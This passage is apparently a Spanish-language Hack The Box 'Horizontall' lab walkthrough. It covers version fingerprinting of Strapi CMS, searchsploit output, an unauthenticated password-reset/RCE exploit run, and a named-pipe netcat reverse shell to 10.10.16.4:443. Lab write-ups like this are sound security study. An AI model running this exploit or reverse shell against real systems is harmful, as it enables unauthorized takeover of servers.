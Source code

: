 ## Strapi CMS Exploitation
Para identificar la versión exacta del CMS Strapi, se realizó una consulta con curl a la ruta /admin/strapiVersion en el subdominio api-prod.horizontall.htb. La respuesta indicó que la versión instalada es 3.0.0-beta.17.4, una versión beta conocida por tener varias vulnerabilidades que pueden ser explotadas para obtener acceso no autorizado y ejecución remota de código.
```bash
❯ curl api-prod.horizontall.htb/admin/strapiVersion
{"strapiVersion":"3.0.0-beta.17.4"}#           
```

Tras identificar la versión vulnerable de Strapi, se realizó una búsqueda usando searchsploit strapi, encontrando varios exploits relevantes. Se descargó el exploit titulado "Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)" que permite ejecutar código de forma remota sin necesidad de autenticación, aprovechando una vulnerabilidad crítica en esta versión específica del CMS.
```bash
❯ searchsploit strapi
------------------------------------------------------------------------------------------------------------------------------- ----------------------------
 Exploit Title                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------- ----------------------------
Strapi 3.0.0-beta - Set Password (Unauthenticated)                                                                             | multiple/webapps/50237.py
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (Authenticated)                                                           | multiple/webapps/50238.py
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)                                                     | multiple/webapps/50239.py
Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthenticated) (Metasploit)                                                       | nodejs/webapps/50716.rb
------------------------------------------------------------------------------------------------------------------------------- ----------------------------
Shellcodes: No Results
Papers: No Results
```

Antes de ejecutar el exploit, preparé mi equipo para recibir la conexión inversa poniendo un listener en el puerto 443.
```bash
❯ nc -nlvp 443
```

Ejecuté el exploit de Strapi apuntando a la URL vulnerable http://api-prod.horizontall.htb. El exploit confirmó que la versión del CMS era vulnerable y procedió a resetear la contraseña del usuario administrador, entregándome nuevas credenciales (admin:SuperStrongPassword1) y un token JWT para autenticación. Luego, ejecuté un comando para abrir una reverse shell usando una named pipe y netcat, lo que me permitió obtener acceso remoto a la máquina con el usuario strapi.
```bash
❯ python3 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNzUxMzg0OTc0LCJleHAiOjE3NTM5NzY5NzR9.jMhuKeNi0Myzyf_APTErR70XpUETKP6PeGuKsrxJcZQ


$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash 2>&1|nc 10.10.16.4 443 >/tmp/f
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```